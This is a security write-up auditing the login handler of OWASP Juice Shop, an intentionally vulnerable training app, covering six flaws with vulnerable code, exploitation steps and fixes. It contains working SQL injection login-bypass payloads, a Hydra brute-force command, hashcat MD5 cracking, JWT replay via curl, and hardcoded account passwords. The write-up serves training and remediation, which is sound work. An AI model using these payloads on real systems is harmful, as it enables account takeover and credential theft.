








Introduction
OWASP Juice Shop is an intentionally vulnerable web application designed for security training.
This write-up focuses exclusively on the login handler (routes/login.ts),
which contains six distinct security vulnerabilities ranging from a critical SQL injection to authentication
design flaws that compound one another in real attack chains.
Each vulnerability below is documented with the exact vulnerable source code, a tested exploitation method, the underlying attack class, and a corrected implementation.
All testing was performed against a local Juice Shop instance. Never test against systems you do not own or have explicit written permission to test.
🎯 Target File
The full source of the audited file, for reference:
import { type Request, type Response, type NextFunction } from 'express' import config from 'config' import * as challengeUtils from '../lib/challengeUtils' import { challenges, users } from '../data/datacache' import { BasketModel } from '../models/basket' import * as security from '../lib/insecurity' import { UserModel } from '../models/user' import * as models from '../models/index' import { type User } from '../data/types' import * as utils from '../lib/utils' export function login () { function afterLogin (user: { data: User, bid: number }, res: Response, next: NextFunction) { verifyPostLoginChallenges(user) BasketModel.findOrCreate({ where: { UserId: user.data.id } }) .then(([basket]: [BasketModel, boolean]) => { const token = security.authorize(user) user.bid = basket.id security.authenticatedUsers.put(token, user) res.json({ authentication: { token, bid: basket.id, umail: user.data.email } }) }).catch((error: Error) => { next(error) }) } return (req: Request, res: Response, next: NextFunction) => { verifyPreLoginChallenges(req)models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: true }).then((authenticatedUser) => { const user = utils.queryResultToJson(authenticatedUser) if (user.data?.id && user.data.totpSecret !== '') { res.status(401).json({ status: 'totp_token_required', data: { tmpToken: security.authorize({ userId: user.data.id, type: 'password_valid_needs_second_factor_token' }) } }) } else if (user.data?.id) { afterLogin(user, res, next) } else { res.status(401).send(res.__('Invalid email or password.')) } }).catch((error: Error) => { next(error) }) } function verifyPreLoginChallenges (req: Request) {challengeUtils.solveIf(challenges.loginSupportChallenge, () => { return req.body.email === 'support@' + config.get('application.domain') && req.body.password === 'J6aVjTgOpRs@?5l!Zkq2AYnCE@RF$P' }) challengeUtils.solveIf(challenges.loginRapperChallenge, () => { return req.body.email === 'mc.safesearch@' + config.get('application.domain') && req.body.password === 'Mr. N00dles' }) challengeUtils.solveIf(challenges.loginAmyChallenge, () => { return req.body.email === 'amy@' + config.get('application.domain') && req.body.password === 'K1f.....................' }) challengeUtils.solveIf(challenges.oauthUserPasswordChallenge, () => { return req.body.email === 'bjoern.kimminich@gmail.com' && req.body.password === 'bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=' }) challengeUtils.solveIf(challenges.exposedCredentialsChallenge, () => { return req.body.email === 'testing@' + config.get('application.domain') && req.body.password === 'IamUsedForTesting' })} function verifyPostLoginChallenges (user: { data: User }) { challengeUtils.solveIf(challenges.loginAdminChallenge, () => { return user.data.id === users.admin.id }) ... } }
📋 Findings Summary
| # | Vulnerability | Severity | OWASP Category | Location |
|---|---|---|---|---|
| 01 | SQL Injection | Critical | A03 Injection | sequelize.query() |
| 02 | Hardcoded Credentials | High | A02 Cryptographic Failures | verifyPreLoginChallenges() |
| 03 | No Rate Limiting | High | A07 Identification & Auth. Failures | login endpoint (global) |
| 04 | Weak Password Hashing (MD5) | High | A02 Cryptographic Failures | security.hash() |
| 05 | Username Enumeration | Medium | A07 Identification & Auth. Failures | response logic / timing |
| 06 | JWT Never Invalidated | Medium | A07 Identification & Auth. Failures | authenticatedUsers.put() |
SQL Injection
Unsanitised user input interpolated into a raw SQL query
The login handler builds its SQL query by directly concatenating req.body.email and the hashed password into a template literal. An attacker controls the string that gets passed to the database engine, allowing them to manipulate the query logic entirely — bypassing authentication without knowing any password.
Vulnerable Code
// req.body.email is user-controlled input — never safe to embed directlymodels.sequelize.query( `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: true } )
How to Exploit
The first step is to inspect the application's source code in order to understand how authentication is implemented
and to identify any exposed user information. During this analysis, we can observe patterns in email formatting
(e.g. user@juice-sh.op) and potentially discover valid or test accounts already present in the system.
This allows us to target specific users more effectively — for example, attempting authentication as the admin user
using admin@juice-sh.op.
Open Burp Suite, intercept the POST request to /rest/user/login, and modify the email field. The injected payload terminates the string and comments out the password check entirely.
- Open the Juice Shop login page and start Burp Suite's Intercept.
- Enter any value in the email and password fields and click Login.
- In Burp Intercept, modify the
emailbody parameter to the payload below. - Forward the request. The application logs you in as the admin user.
# Payload: terminates the email string, injects OR true, comments out password checkemail=admin@juice-sh.op'--&password=anything# Resulting SQL sent to the database:SELECT * FROM Users WHERE email = 'admin@juice-sh.op'--' AND password = '...' AND deletedAt IS NULL# Everything after -- is ignored by SQLite. Query becomes:SELECT * FROM Users WHERE email = 'admin@juice-sh.op'


With a valid email pattern identified, we can craft a more targeted SQL injection payload and test it using
Burp Suite. However, even without any prior knowledge of valid emails, authentication can still be bypassed
using a boolean-based SQL injection such as ' OR '1'='1'--, which forces the query to return
a valid user regardless of the provided credentials:
email=' OR '1'='1'--&password=anything# Resulting SQL:SELECT * FROM Users WHERE email = '' OR '1'='1'# Returns the first user in the database (typically the admin)


How to Fix
Replace the raw string query with Sequelize's parameterised findOne(). The ORM handles all escaping automatically — user input is never concatenated into SQL.
models.sequelize.query(
`SELECT * FROM Users WHERE email = '${req.body.email || ''}'
AND password = '${security.hash(req.body.password || '')}'
AND deletedAt IS NULL`,
{ model: UserModel, plain: true }
)
UserModel.findOne({
where: {
email: req.body.email,
password: security.hash(
req.body.password || ''
),
deletedAt: null
}
})
Sequelize's where clause passes values as bound parameters to the underlying driver. User input is treated as data, never as SQL syntax.
Hardcoded Credentials in Source Code
Plaintext passwords committed to the repository
The verifyPreLoginChallenges() function contains multiple real user passwords written in plaintext directly in the source code. Anyone with access to the repository — including any contributor, contractor, or attacker who obtains the source — immediately has valid credentials for multiple accounts.
Vulnerable Code
function verifyPreLoginChallenges (req: Request) {challengeUtils.solveIf(challenges.loginSupportChallenge, () => { return req.body.email === 'support@juice-sh.op' && req.body.password === 'J6aVjTgOpRs@?5l!Zkq2AYnCE@RF$P' // ❌ plaintext in source }) challengeUtils.solveIf(challenges.loginRapperChallenge, () => { return req.body.email === 'mc.safesearch@juice-sh.op' && req.body.password === 'Mr. N00dles' // ❌ plaintext in source }) challengeUtils.solveIf(challenges.loginAmyChallenge, () => { return req.body.email === 'amy@juice-sh.op' && req.body.password === 'K1f.....................' // ❌ plaintext in source }) challengeUtils.solveIf(challenges.exposedCredentialsChallenge, () => { return req.body.email === 'testing@juice-sh.op' && req.body.password === 'IamUsedForTesting' // ❌ plaintext in source })}
How to Exploit
No tooling required. Clone or browse the repository and use the credentials directly against the login endpoint.
- Navigate to the public GitHub repository or obtain the source through any means (leaked archive, insider access, decompiled bundle).
- Search the source for the keyword
solveIfor simply grep for password strings. - Use the extracted credentials directly in the login form or via curl.
curl -s -X POST http://localhost:3000/rest/user/login \ -H "Content-Type: application/json" \ -d '{"email":"support@juice-sh.op","password":"J6aVjTgOpRs@?5l!Zkq2AYnCE@RF$P"}'# Response — valid token returned immediately{"authentication":{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6NiwidXNlcm5hbWUiOiIiLCJlbWFpbCI6InN1cHBvcnRAanVpY2Utc2gub3AiLCJwYXNzd29yZCI6IjM4Njk0MzNkNzRlM2QwYzg2ZmQyNTU2MmY4MzZiYzgyIiwicm9sZSI6ImFkbWluIiwiZGVsdXhlVG9rZW4iOiIiLCJsYXN0TG9naW5JcCI6IjEyNy4wLjAuMSIsInByb2ZpbGVJbWFnZSI6ImFzc2V0cy9wdWJsaWMvaW1hZ2VzL3VwbG9hZHMvZGVmYXVsdEFkbWluLnBuZyIsInRvdHBTZWNyZXQiOiIiLCJpc0FjdGl2ZSI6dHJ1ZSwiY3JlYXRlZEF0IjoiMjAyNi0wNC0xNSAxOTowMToyMC4zOTkgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAyNi0wNC0xNSAxOTozMDoyNi42ODEgKzAwOjAwIiwiZGVsZXRlZEF0IjpudWxsfSwiaWF0IjoxNzc2Mjg0NTY0fQ.ct4ojpRW96-aUFzECvx1_npZ4W-VgbkxxTx8O7jVHNaRA3ARZF74FrJWPwTkkmqBUnM9gJIAc7SaPs32pwsZA09WIZSuu82z1GzPoyEXrJYLjCXmyRAipSvVNKTXdkRFyiTRkCTbLDXEiJlhA5PKpy9_vq80dETMb3-we1VpUOo","bid":6,"umail":"support@juice-sh.op"}}


How to Fix
Remove all plaintext credentials from source code. Load secrets exclusively from environment variables or a secrets manager at runtime. In production, these challenge verifications should be removed entirely.
challengeUtils.solveIf(
challenges.loginSupportChallenge,
() => {
return req.body.password ===
'J6aVjTgOpRs@?5l!Zkq2AYnCE@RF$P'
}
)
challengeUtils.solveIf(
challenges.loginSupportChallenge,
() => {
return req.body.password ===
process.env.SUPPORT_ACCOUNT_PASSWORD
}
)
// Loaded from .env / vault at runtime
// Never committed to the repository
No Rate Limiting / Brute Force Protection
Login endpoint accepts unlimited requests with no throttling
The login endpoint does not implement rate limiting, account lockout, or any form of automated abuse prevention. This allows an attacker to perform unlimited authentication attempts against a valid user account without restriction, making brute force and credential stuffing attacks feasible at scale.
Vulnerable Code
// In app.ts / server setup — the route is registered with no rate limiting:app.post('/rest/user/login', login()) // ❌ No express-rate-limit middleware // ❌ No account lockout after repeated failures // ❌ No CAPTCHA or challenge mechanism
How to Exploit
The attack requires a valid email address, which in this case was obtained from hardcoded credentials identified in the application source code during a previous vulnerability analysis.
With a valid username identified, automated tools such as Hydra or Burp Suite Intruder can be used to test large password lists against the login endpoint. Due to the absence of rate limiting, the application does not introduce delays, blocking, or progressive defenses.
- Confirm a valid email address (previously extracted from hardcoded credentials in the source code).
- Prepare a password wordlist such as
rockyou.txt. - Run automated login attempts against
/rest/user/login. - Observe that the server continues to accept requests without lockout, delay, or throttling mechanisms.
hydra -l testing@juice-sh.op \
-P /usr/share/wordlists/rockyou.txt \
-s 3000 \
localhost \
http-post-form \
"/rest/user/login:email=^USER^&password=^PASS^:Invalid email or password"

Burp Suite Intruder alternative:
- Capture POST /rest/user/login request
- Send to Intruder and mark password parameter
- Load wordlist (e.g. rockyou.txt)
- Observe responses — no 429 / lockout behavior is triggered

How to Fix
Implement rate limiting on authentication endpoints using middleware such as
express-rate-limit,
combined with per-account failed login tracking and optional CAPTCHA challenges after repeated failures.
// No protection applied
app.post('/rest/user/login', login())
import rateLimit from 'express-rate-limit'
const loginLimiter = rateLimit({
windowMs: 15 * 60 * 1000,
max: 10,
message: 'Too many login attempts',
standardHeaders: true,
})
app.post(
'/rest/user/login',
loginLimiter,
login()
)
Weak Password Hashing (MD5)
security.hash() uses MD5 — crackable in milliseconds
The security.hash() function used to hash passwords before comparison uses MD5. MD5 is a cryptographic hash function not suitable for passwords: it has no salt, no work factor, and can be computed billions of times per second on consumer hardware. Combined with the SQLi above, an attacker can dump all password hashes and crack them trivially with a rainbow table or hashcat.
Vulnerable Code
// The hash function in insecurity.ts — referenced in the login queryexport const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex') // ❌ MD5 — no salt, no work factor, GPU-crackable in milliseconds// Used in login.ts:... AND password = '${security.hash(req.body.password || '')}' ...
How to Exploit
After extracting hashes via the SQL injection, use hashcat in MD5 mode against a wordlist. Common passwords are cracked in under a second.
- Exploit the SQL injection to dump the Users table (or use SQLiteOnline with the database file).
- Extract the
passwordcolumn — it contains MD5 hashes. - Run hashcat in mode 0 (raw MD5) with rockyou.txt.
- Admin password
admin123cracks instantly.
# Dump a hash from the DB — e.g. admin@juice-sh.op0192023a7bbd73250516f069df18b500hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt# Output:0192023a7bbd73250516f069df18b500:admin123# Cracked in < 1 second on a standard GPU

How to Fix
Replace MD5 with bcrypt or argon2. These are adaptive hashing functions with a configurable work factor and automatic salting — designed specifically for passwords.
// lib/insecurity.ts
export const hash = (data: string) =>
crypto
.createHash('md5')
.update(data)
.digest('hex')
// No salt. No work factor.
// Crackable in milliseconds.
import bcrypt from 'bcrypt'
// On registration:
export const hashPassword = async (pw: string) =>
bcrypt.hash(pw, 12)
// Work factor 12 = ~300ms per hash
// Salt is generated and stored automatically
// On login:
export const verifyPassword = async (
plain: string,
stored: string
) => bcrypt.compare(plain, stored)
Username / Email Enumeration
Response timing and error messages reveal valid accounts
The login handler has two enumeration vectors: the error message is identical for both cases (Invalid email or password), which is good — but the response time differs depending on whether the email exists. When an email is not found the query returns immediately; when it is found the password hash comparison runs, adding measurable latency. An attacker can use timing to build a list of valid email addresses.
Vulnerable Code
.then((authenticatedUser) => { const user = utils.queryResultToJson(authenticatedUser) if (user.data?.id && user.data.totpSecret !== '') {// ← Path A: email found, TOTP required — longer pathres.status(401).json({ status: 'totp_token_required', ... }) } else if (user.data?.id) {// ← Path B: email found, no TOTP — afterLogin() runsafterLogin(user, res, next) } else {// ← Path C: email NOT found — immediate short-circuitres.status(401).send(res.__('Invalid email or password.')) // ❌ Timing difference between Path C and Paths A/B leaks email validity} })
How to Exploit
Use Burp Suite Intruder with a list of candidate email addresses. Measure response times — requests with valid emails will consistently take longer than invalid ones.
- Capture a login POST request and send to Burp Intruder.
- Set the email parameter as the payload position with a list of candidate addresses.
- Run the attack and sort results by Response Received time in the results tab.
- Valid emails will cluster around a higher response time than invalid ones.
# Invalid email — query finds nothing, returns fastPOST /rest/user/login → 401 | Response time: ~12ms (email not found)# Valid email — hash comparison runs, slightly slowerPOST /rest/user/login → 401 | Response time: ~38ms (email found, wrong password)

How to Fix
Always run the password comparison regardless of whether the email was found, using a pre-computed dummy hash. This makes the response time constant for both valid and invalid email addresses.
// Short-circuits immediately if email not found
// — measurable timing difference
.then((authenticatedUser) => {
const user = queryResultToJson(authenticatedUser)
if (user.data?.id) {
afterLogin(user, res, next)
} else {
res.status(401).send('Invalid email or password.')
// ❌ Skips hash work — returns faster
}
})
// Always run bcrypt.compare — constant time
const DUMMY_HASH = await bcrypt.hash('dummy', 12)
.then(async (authenticatedUser) => {
const user = queryResultToJson(authenticatedUser)
const storedHash = user.data?.password ?? DUMMY_HASH
const valid = await bcrypt.compare(
req.body.password || '', storedHash
)
if (valid && user.data?.id) {
afterLogin(user, res, next)
} else {
// Same code path — same timing
res.status(401).send('Invalid email or password.')
}
})
JWT Tokens Never Invalidated
Tokens remain valid after logout — no server-side revocation
After a successful login, the application issues a JWT and stores it in an in-memory map (security.authenticatedUsers). There is no expiry enforcement on this map, and the logout endpoint removes the token from client storage but does not add it to a server-side denylist. An attacker who captures a token (via XSS, network sniffing, or log exposure) can reuse it indefinitely — even after the user has logged out.
Vulnerable Code
function afterLogin (user, res, next) { BasketModel.findOrCreate({ where: { UserId: user.data.id } }) .then(([basket]) => { const token = security.authorize(user) user.bid = basket.idsecurity.authenticatedUsers.put(token, user) // ❌ Token stored in-memory with no TTL // ❌ No mechanism to invalidate after logout // ❌ Captured token remains valid until server restartsres.json({ authentication: { token, bid: basket.id, umail: user.data.email } }) }) }
How to Exploit
Capture a valid JWT token (e.g. from browser DevTools or an intercepted request), log the user out through the UI, then replay the token against authenticated endpoints.
- Log in and copy the JWT from the response or from
localStoragein browser DevTools. - Log out of the application through the normal UI.
- Send an authenticated API request using the old token — it will still succeed.
# 1. Capture token at loginTOKEN="eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9..."# 2. Log out (client-side only, token not server-invalidated)# 3. Reuse the token — still acceptedcurl -H "Authorization: Bearer $TOKEN" \ http://localhost:3000/api/Users/1{"status":"success","data":{"id":1,"email":"admin@juice-sh.op",...}}# ❌ Server accepted the "logged-out" token

How to Fix
Implement a token denylist (backed by Redis for production) and set a short exp claim. On logout, add the token's JTI (JWT ID) to the denylist and reject it on all subsequent requests.
// Token issued with no expiry enforcement
const token = security.authorize(user)
security.authenticatedUsers.put(token, user)
// Logout just deletes the client cookie —
// no server-side invalidation
// Issue short-lived JWT with jti claim
const jti = crypto.randomUUID()
const token = jwt.sign(
{ userId: user.data.id, jti },
JWT_SECRET,
{ expiresIn: '15m' }
)
// On logout — add jti to Redis denylist
await redis.set(jti, '1', 'EX', 900)
// On every authenticated request — check denylist
const { jti } = jwt.verify(token, JWT_SECRET)
if (await redis.get(jti)) {
return res.status(401).json({ error: 'Token revoked' })
}
Real-World Attack Chain
These vulnerabilities do not exist in isolation. A real attacker would chain them together in sequence:
- SQL Injection — Bypass authentication entirely, log in as admin without any password.
- SQL Injection (data exfiltration) — Dump the entire Users table, including all MD5 password hashes and email addresses.
- Weak Hashing — Crack the dumped MD5 hashes offline with hashcat in seconds. Recover all user passwords.
- Credential Stuffing — Use the recovered plaintext passwords against other services (Gmail, LinkedIn) — most users reuse passwords.
- Hardcoded Credentials — Log in as privileged accounts (support, testing) directly from source code without any cracking needed.
- JWT Replay — After establishing a session, keep the token indefinitely — no logout can revoke it.
Vulnerability 01 (SQL Injection) alone compromises the entire application. The remaining five vulnerabilities remove every safety net that might otherwise limit the blast radius of a successful attack.
Remediation Checklist
- [ ] Replace raw
sequelize.query()with parameterisedUserModel.findOne() - [ ] Remove all plaintext passwords from
verifyPreLoginChallenges()— move to env vars - [ ] Add
express-rate-limitmiddleware with a 10 req / 15 min window on the login route - [ ] Replace
security.hash()(MD5) withbcryptorargon2with work factor ≥ 12 - [ ] Implement constant-time password verification with a dummy hash for unknown emails
- [ ] Implement JWT denylist (Redis-backed) and short
expclaims (15 min) - [ ] Re-hash all existing MD5 passwords in the database on next user login (migration strategy)
- [ ] Run Checkov or a SAST tool on the repository to catch secrets committed to source
🧠 What I Learned
- How a single SQL injection can cascade into a full account takeover chain for every user in the database
- Why ORM parameterisation is not optional — raw string queries should never contain user input
- The practical difference between cryptographic hashes (MD5/SHA) and password hashing functions (bcrypt/argon2)
- How timing side-channels can leak information even when error messages are identical
- Why JWTs need server-side revocation — stateless tokens are convenient but dangerous without a denylist
- How to use Burp Suite, Hydra, and hashcat to prove real-world exploitability, not just theoretical risk